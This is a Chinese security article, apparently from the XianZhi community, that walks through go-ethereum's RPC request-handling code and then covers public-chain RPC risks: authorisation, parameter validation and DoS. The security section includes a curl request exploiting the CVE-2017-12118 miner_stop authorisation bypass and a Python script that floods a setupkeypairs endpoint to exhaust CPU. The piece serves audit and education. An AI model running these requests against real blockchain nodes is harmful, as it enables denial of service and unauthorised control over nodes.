

# 公链远程方法调用机制及安全风险探索 (下) - 先知社区

公链远程方法调用机制及安全风险探索 (下)

- - -

## 文章前言

本篇文章是《公链远程方法调用机制及安全风险探索 (上)》的续篇

## 源码分析

### 请求处理

在之前的服务启动部分我们并没有对 RPC 接口的请求部分进行深入分析，在这里我们对此再进行更进一步的向下分析，在下面的代码中 ServeHTTP() 函数用于处理 JSON-RPC 请求的 HTTP 接口，代码首先检查请求的方法是否为 GET 且请求的内容长度和 URL 参数都为空，如果满足这些条件则表示是远程健康检查的空请求，代码会返回 200 OK 的状态码，随后代码调用 validateRequest() 函数验证请求的有效性，如果验证过程中出现错误，代码会返回相应的错误信息和状态码，如果前面的检查都通过了，代码会创建一个读取请求正文、将响应写入响应流并处理单个请求的编解码器，代码会建立一个上下文 ctx 并将远程地址、协议、本地地址和用户代理等信息作为上下文的值进行保存，紧接着代码设置响应的 content-type 头部为预定的内容类型，接下来代码创建一个 HTTP 服务器的编解码器 codec，负责读取请求正文、写入响应流并将服务器指令转发给处理单个请求，最后代码调用 serveSingleRequest() 方法处理单个请求并在处理完成后关闭编解码器

```plain
// filedir: go-ethereum-1.10.2\rpc\http.go  L225
// ServeHTTP serves JSON-RPC requests over HTTP.
func (s *Server) ServeHTTP(w http.ResponseWriter, r *http.Request) {
    // Permit dumb empty requests for remote health-checks (AWS)
    if r.Method == http.MethodGet && r.ContentLength == 0 && r.URL.RawQuery == "" {
        w.WriteHeader(http.StatusOK)
        return
    }
    if code, err := validateRequest(r); err != nil {
        http.Error(w, err.Error(), code)
        return
    }
    // All checks passed, create a codec that reads directly from the request body
    // until EOF, writes the response to w, and orders the server to process a
    // single request.
    ctx := r.Context()
    ctx = context.WithValue(ctx, "remote", r.RemoteAddr)
    ctx = context.WithValue(ctx, "scheme", r.Proto)
    ctx = context.WithValue(ctx, "local", r.Host)
    if ua := r.Header.Get("User-Agent"); ua != "" {
        ctx = context.WithValue(ctx, "User-Agent", ua)
    }
    if origin := r.Header.Get("Origin"); origin != "" {
        ctx = context.WithValue(ctx, "Origin", origin)
    }

    w.Header().Set("content-type", contentType)
    codec := newHTTPServerConn(r, w)
    defer codec.close()
    s.serveSingleRequest(ctx, codec)
}
```

validateRequest 实现代码如下所示，这里会校验请求的方法 (不允许 PUT、DELETE)、请求数据包大小 (缺失可能会带来安全风险)、Content-Type 等：

```plain
// validateRequest returns a non-zero response code and error message if the
// request is invalid.
func validateRequest(r *http.Request) (int, error) {
    if r.Method == http.MethodPut || r.Method == http.MethodDelete {
        return http.StatusMethodNotAllowed, errors.New("method not allowed")
    }
    if r.ContentLength > maxRequestContentLength {
        err := fmt.Errorf("content length too large (%d>%d)", r.ContentLength, maxRequestContentLength)
        return http.StatusRequestEntityTooLarge, err
    }
    // Allow OPTIONS (regardless of content-type)
    if r.Method == http.MethodOptions {
        return 0, nil
    }
    // Check content-type
    if mt, _, err := mime.ParseMediaType(r.Header.Get("content-type")); err == nil {
        for _, accepted := range acceptedContentTypes {
            if accepted == mt {
                return 0, nil
            }
        }
    }
    // Invalid content-type
    err := fmt.Errorf("invalid content type, only %s is supported", contentType)
    return http.StatusUnsupportedMediaType, err
}
```

函数 serveSingleRequest 实现逻辑如下所示，在这里会调用 newHandler 来获取用于处理请求的 Handler：

```plain
// filedir:go-ethereum-1.10.2\rpc\server.go  L94
// serveSingleRequest reads and processes a single RPC request from the given codec. This
// is used to serve HTTP connections. Subscriptions and reverse calls are not allowed in
// this mode.
func (s *Server) serveSingleRequest(ctx context.Context, codec ServerCodec) {
    // Don't serve if server is stopped.
    if atomic.LoadInt32(&s.run) == 0 {
        return
    }

    h := newHandler(ctx, codec, s.idgen, &s.services)
    h.allowSubscribe = false
    defer h.close(io.EOF, nil)

    reqs, batch, err := codec.readBatch()
    if err != nil {
        if err != io.EOF {
            codec.writeJSON(ctx, errorMessage(&invalidMessageError{"parse error"}))
        }
        return
    }
    if batch {
        h.handleBatch(reqs)
    } else {
        h.handleMsg(reqs[0])
    }
}
```

newHandler 实现代码如下所示，这里会调用 newCallBack 回调函数：

```plain
func newHandler(connCtx context.Context, conn jsonWriter, idgen func() ID, reg *serviceRegistry) *handler {
    rootCtx, cancelRoot := context.WithCancel(connCtx)
    h := &handler{
        reg:            reg,
        idgen:          idgen,
        conn:           conn,
        respWait:       make(map[string]*requestOp),
        clientSubs:     make(map[string]*ClientSubscription),
        rootCtx:        rootCtx,
        cancelRoot:     cancelRoot,
        allowSubscribe: true,
        serverSubs:     make(map[ID]*Subscription),
        log:            log.Root(),
    }
    if conn.remoteAddr() != "" {
        h.log = h.log.New("conn", conn.remoteAddr())
    }
    h.unsubscribeCb = newCallback(reflect.Value{}, reflect.ValueOf(h.unsubscribe))
    return h
}
```

newCallback 函数实现如下所示，该函数用于将给定的函数转换为一个回调对象，检查函数的参数和返回值类型是否符合 RPC 回调的要求并根据检查结果返回相应的回调对象或 nil：

```plain
// filedir:go-ethereum-1.10.2\rpc\service.go
// newCallback turns fn (a function) into a callback object. It returns nil if the function
// is unsuitable as an RPC callback.
func newCallback(receiver, fn reflect.Value) *callback {
    fntype := fn.Type()
    c := &callback{fn: fn, rcvr: receiver, errPos: -1, isSubscribe: isPubSub(fntype)}
    // Determine parameter types. They must all be exported or builtin types.
    c.makeArgTypes()

    // Verify return types. The function must return at most one error
    // and/or one other non-error value.
    outs := make([]reflect.Type, fntype.NumOut())
    for i := 0; i < fntype.NumOut(); i++ {
        outs[i] = fntype.Out(i)
    }
    if len(outs) > 2 {
        return nil
    }
    // If an error is returned, it must be the last returned value.
    switch {
    case len(outs) == 1 && isErrorType(outs[0]):
        c.errPos = 0
    case len(outs) == 2:
        if isErrorType(outs[0]) || !isErrorType(outs[1]) {
            return nil
        }
        c.errPos = 1
    }
    return c
}
```

随后调用 startCallProc，该方法用于在一个新的 goroutine 中运行给定的函数 fn 并在启动时开始跟踪该函数的执行情况，它会创建一个新的上下文并在函数执行结束时完成相应的清理工作

```plain
// filedir:go-ethereum-1.10.2\rpc\handler.go L219
// startCallProc runs fn in a new goroutine and starts tracking it in the h.calls wait group.
func (h *handler) startCallProc(fn func(*callProc)) {
    h.callWG.Add(1)
    go func() {
        ctx, cancel := context.WithCancel(h.rootCtx)
        defer h.callWG.Done()
        defer cancel()
        fn(&callProc{ctx: ctx})
    }()
}
```

这里的 handleCallMsg 用于处理请求并返回执行结果：

```plain
// filedir:go-ethereum-1.10.2\rpc\handler.go    L290
// handleCallMsg executes a call message and returns the answer.
func (h *handler) handleCallMsg(ctx *callProc, msg *jsonrpcMessage) *jsonrpcMessage {
    start := time.Now()
    switch {
    case msg.isNotification():
        h.handleCall(ctx, msg)
        h.log.Debug("Served "+msg.Method, "t", time.Since(start))
        return nil
    case msg.isCall():
        resp := h.handleCall(ctx, msg)
        var ctx []interface{}
        ctx = append(ctx, "reqid", idForLog{msg.ID}, "t", time.Since(start))
        if resp.Error != nil {
            ctx = append(ctx, "err", resp.Error.Message)
            if resp.Error.Data != nil {
                ctx = append(ctx, "errdata", resp.Error.Data)
            }
            h.log.Warn("Served "+msg.Method, ctx...)
        } else {
            h.log.Debug("Served "+msg.Method, ctx...)
        }
        return resp
    case msg.hasValidID():
        return msg.errorResponse(&invalidRequestError{"invalid request"})
    default:
        return errorMessage(&invalidRequestError{"invalid request"})
    }
}
```

### 非 HTTP 请求

当请求不是 HTTP 请求时会转而走向 c.send(ctx, op, msg) 方法，这里之所以这样设计是因为 http 是一个短连接，每次请求都是同步的，直接返回请求结果，而 IPC、InProc、websocket 请求都是长连接，每次请求都是异步的，需要在网络线程外监听请求返回的结果

```plain
// CallContext performs a JSON-RPC call with the given arguments. If the context is
// canceled before the call has successfully returned, CallContext returns immediately.
//
// The result must be a pointer so that package json can unmarshal into it. You
// can also pass nil, in which case the result is ignored.
func (c *Client) CallContext(ctx context.Context, result interface{}, method string, args ...interface{}) error {
    if result != nil && reflect.TypeOf(result).Kind() != reflect.Ptr {
        return fmt.Errorf("call result parameter must be pointer or nil interface: %v", result)
    }
    msg, err := c.newMessage(method, args...)
    if err != nil {
        return err
    }
    op := &requestOp{ids: []json.RawMessage{msg.ID}, resp: make(chan *jsonrpcMessage, 1)}

    if c.isHTTP {
        err = c.sendHTTP(ctx, op, msg)
    } else {
        err = c.send(ctx, op, msg)
    }
    if err != nil {
        return err
    }

    // dispatch has accepted the request and will close the channel when it quits.
    switch resp, err := op.wait(ctx, c); {
    case err != nil:
        return err
    case resp.Error != nil:
        return resp.Error
    case len(resp.Result) == 0:
        return ErrNoResult
    default:
        return json.Unmarshal(resp.Result, &result)
    }
}
```

send 方法的具体实现代码如下所示，在这里请求会被 select 阻塞直到 c.reqInit 接收到 Op，或者 receive 到 ctx.Done()：

```plain
// filedir:go-ethereum-1.10.2\rpc\client.go  L478
// send registers op with the dispatch loop, then sends msg on the connection.
// if sending fails, op is deregistered.
func (c *Client) send(ctx context.Context, op *requestOp, msg interface{}) error {
    select {
    case c.reqInit <- op:
        err := c.write(ctx, msg, false)
        c.reqSent <- err
        return err
    case <-ctx.Done():
        // This can happen if the client is overloaded or unable to keep up with
        // subscription notifications.
        return ctx.Err()
    case <-c.closing:
        return ErrClientQuit
    }
}
```

当 c.reqInit 接收到 Op 后会把请求的内容写入到 conn 通道中去

```plain
func (c *Client) write(ctx context.Context, msg interface{}, retry bool) error {
    // The previous write failed. Try to establish a new connection.
    if c.writeConn == nil {
        if err := c.reconnect(ctx); err != nil {
            return err
        }
    }
    err := c.writeConn.writeJSON(ctx, msg)
    if err != nil {
        c.writeConn = nil
        if !retry {
            return c.write(ctx, msg, true)
        }
    }
    return err
}
```

之后向上回溯到 op.wait(ctx, c)，在该函数中调用 ctx.Done 添加到请求队列中去：

```plain
// filedir ：go-ethereum-1.10.2\rpc\client.go
func (op *requestOp) wait(ctx context.Context, c *Client) (*jsonrpcMessage, error) {
    select {
    case <-ctx.Done():
        // Send the timeout to dispatch so it can remove the request IDs.
        if !c.isHTTP {
            select {
            case c.reqTimeout <- op:
            case <-c.closing:
            }
        }
        return nil, ctx.Err()
    case resp := <-op.resp:
        return resp, op.err
    }
}
```

之后 client 的 dispactch 方法会收到这个结果

```plain
// filedir: go-ethereum-1.10.2\rpc\client.go L538
// dispatch is the main loop of the client.
// It sends read messages to waiting calls to Call and BatchCall
// and subscription notifications to registered subscriptions.
func (c *Client) dispatch(codec ServerCodec) {
    var (
        lastOp      *requestOp  // tracks last send operation
        reqInitLock = c.reqInit // nil while the send lock is held
        conn        = c.newClientConn(codec)
        reading     = true
    )
    defer func() {
        close(c.closing)
        if reading {
            conn.close(ErrClientQuit, nil)
            c.drainRead()
        }
        close(c.didClose)
    }()

    // Spawn the initial read loop.
    go c.read(codec)

    for {
        select {
        case <-c.close:
            return

        // Read path:
        case op := <-c.readOp:
            if op.batch {
                conn.handler.handleBatch(op.msgs)
            } else {
                conn.handler.handleMsg(op.msgs[0])
            }

        case err := <-c.readErr:
            conn.handler.log.Debug("RPC connection read error", "err", err)
            conn.close(err, lastOp)
            reading = false

        // Reconnect:
        case newcodec := <-c.reconnected:
            log.Debug("RPC client reconnected", "reading", reading, "conn", newcodec.remoteAddr())
            if reading {
                // Wait for the previous read loop to exit. This is a rare case which
                // happens if this loop isn't notified in time after the connection breaks.
                // In those cases the caller will notice first and reconnect. Closing the
                // handler terminates all waiting requests (closing op.resp) except for
                // lastOp, which will be transferred to the new handler.
                conn.close(errClientReconnected, lastOp)
                c.drainRead()
            }
            go c.read(newcodec)
            reading = true
            conn = c.newClientConn(newcodec)
            // Re-register the in-flight request on the new handler
            // because that's where it will be sent.
            conn.handler.addRequestOp(lastOp)

        // Send path:
        case op := <-reqInitLock:
            // Stop listening for further requests until the current one has been sent.
            reqInitLock = nil
            lastOp = op
            conn.handler.addRequestOp(op)

        case err := <-c.reqSent:
            if err != nil {
                // Remove response handlers for the last send. When the read loop
                // goes down, it will signal all other current operations.
                conn.handler.removeRequestOp(lastOp)
            }
            // Let the next request in.
            reqInitLock = c.reqInit
            lastOp = nil

        case op := <-c.reqTimeout:
            conn.handler.removeRequestOp(op)
        }
    }
}
```

之后通过 c.read(codec) 读取 server 通过 conn 返回的数据，后将 server 返回数据 send 到 c.readOp，之后调用 handler(handleBatch\\handleMsg) 处理请求，后续逻辑和 HTTP 请求处理一致，这里不再赘述~

```plain
// filedir：go-ethereum-1.10.2\rpc\client.go  L630
// read decodes RPC messages from a codec, feeding them into dispatch.
func (c *Client) read(codec ServerCodec) {
    for {
        msgs, batch, err := codec.readBatch()
        if _, ok := err.(*json.SyntaxError); ok {
            codec.writeJSON(context.Background(), errorMessage(&parseError{err.Error()}))
        }
        if err != nil {
            c.readErr <- err
            return
        }
        c.readOp <- readOp{msgs, batch}
    }
}
```

## 安全概览

公链 RPC 接口的安全问题主要涉及以下几个方面：

-   身份验证和授权：公链 RPC 接口应该实现适当的身份验证和授权机制，以确保只有授权的用户或应用程序可以访问接口。常见的身份验证方法包括基于令牌的身份验证（例如使用 API 密钥或访问令牌）、基于数字签名的身份验证以及使用用户名和密码进行身份验证。
-   访问控制：公链 RPC 接口应该限制对敏感操作的访问权限，例如发送交易或更改合约状态。接口应该明确定义哪些操作需要特定权限，并确保仅有授权的用户或应用程序可以执行这些操作。
-   参数验证和过滤：公链 RPC 接口应该对传入的参数进行有效性验证和过滤，以防止恶意输入或错误的参数导致的安全漏洞。例如，验证合约调用中的参数类型和范围，防止整数溢出或其他类型错误。
-   第三方组件：公链必不可少的需要引入第三方库，如果引入第三方风险库也会导致安全风险被引入，例如：fastjson(之所以归类到这里是因为我们可以通过 RPC 调用传递恶意的请求参数使其在后端处理时进行反序列化操作实现 RCE)

### 授权问题

漏洞编号：CVE-2017-12118  
漏洞概述：cpp-ethereum 的 JSON-RPC(commit 4e1015743b95821849d001618a7ce82c7c073768) 的 miner\_stop API 中存在一个可利用的不当授权漏洞，JSON 请求可能导致对受限功能的访问，从而绕过授权，攻击者可以发送 JSON 来触发此漏洞  
漏洞浅析：  
默认情况下该接口绑定到 localhost，而"Content-Type"请求头的值则必须设置为"application/json"-CORS 设置设置为默认情况下阻止所有跨域请求

```plain
Line 247    bool AdminEth::miner_stop()
Line 248    {
Line 249        m_eth.stopSealing();
Line 250        return true;
Line 251    }
```

可以看到这里并没有对调用用户权限的检查，相同的功能在 admin\_eth\_setMinig 的 API 上公开，其中在 API 主体的开头进行权限检查

```plain
Line 22 bool AdminEth::admin_eth_setMining(bool _on, string const& _session)
Line 23 {
Line 24     RPC_ADMIN;
Line 25     if (_on)
Line 26         m_eth.startSealing();
Line 27     else
Line 28         m_eth.stopSealing();
Line 29     return true;
Line 30 }
Line 31
```

如果启用此功能，则默认行为是不安全的，此时远程攻击者可以通过调用 RPC 请求阻断挖矿操作等

```plain
icewall@ubuntu:~/bugs/cpp-ethereum/build/eth$ ./eth -j --ipc --private 123 --no-discovery --datadir `pwd`/data --config config.json --admin-via-http 
cpp-ethereum, a C++ Ethereum client
cpp-ethereum 1.3.0
  By cpp-ethereum contributors, (c) 2013-2016.
  See the README for contributors and credits.
Networking disabled. To start, use netstart or pass --bootstrap or a remote host.
JSONRPC Admin Session Key: Zt9zxSANHZs=
    03:09:10 AM.197|miner0  Loading full DAG of seedhash: #00000000…
    03:09:10 AM.978|miner0  Full DAG loaded

icewall@ubuntu:~/bugs/cpp-ethereum$ curl -X POST --data '{"jsonrpc":"2.0","method":"miner_stop","params":[1],"id":1}' localhost:8545
```

### 参数合法性校验

在对某公链进行安全审计时发现公链中对于传入的地址参数的合法性缺少检查  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240201151448-956ed986-c0d1-1.png)  
setMinerCoinbase 直接赋值，未对参数做检查  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240201151511-a347786a-c0d1-1.png)  
传入非法的地址参数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240201151526-abecd17c-c0d1-1.png)  
查看 coinbase 值发现之前赋予的非法地址被成功应用，此时如果接口外置同时未作权限校验，那么此时的挖矿所获的资产将全部打水漂  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240201151539-b3ef9b70-c0d1-1.png)

### for 循环导致 dos

之前在做某公链审计时发现存在 for 循环的逻辑代码在设计时器循环的次数由外部用户可控的参数决定，故用户可以通过构造一个恶意的参数从而让该 for 循环不间歇的进行循环操作，从而消耗大量的 CPU 内存，甚至造成 DDOS。  
用于生成公钥/私钥对的 RPC 接口对于传入的要生成公钥/私钥对的个数 num 未做限制，直接 for 循环 num 次生成 num 对公钥/私钥，攻击者可以通过传入较大的 num 参数，之后可导致 CPU 短时间内处于高占用状  
setupkeyparis 逻辑设计：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240201151753-039f1970-c0d2-1.png)  
测试脚本：

```plain
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests
def exp():
   URL = "http://172.16.1.148:5112"
   data = {
         "jsonrpc": "2.0",
         "method": "setupkeypairs",
         "configs": [214748364],
         "id": "rpcsetupkeypairs"
    }
   s = requests.session()
   s.auth = ('xxxx','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(5):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```

执行脚本后 CPU 高占用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201151846-23ad6e24-c0d2-1.png)

此时外部 RPC 调用完全失效，无法正常响应：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201151858-2a6a6a6e-c0d2-1.png)

## 文末小结

本文探讨了公链远程方法调用 (RPC) 机制及其相关的安全风险，主要侧重于 RPC 服务的启动、调用方法、请求处理流程等方式，随后通过结合几个公链审计示例以及公开的 CVE 漏洞为例对 RPC 的安全性问题进行了一个简易的浅析，其实这里的 RPC 还可以打崩节点，至于具体的方法大家可以先思考一下下，这里暂时不给出了，有一些公链还未彻底解决掉，等后期解决掉再放出来
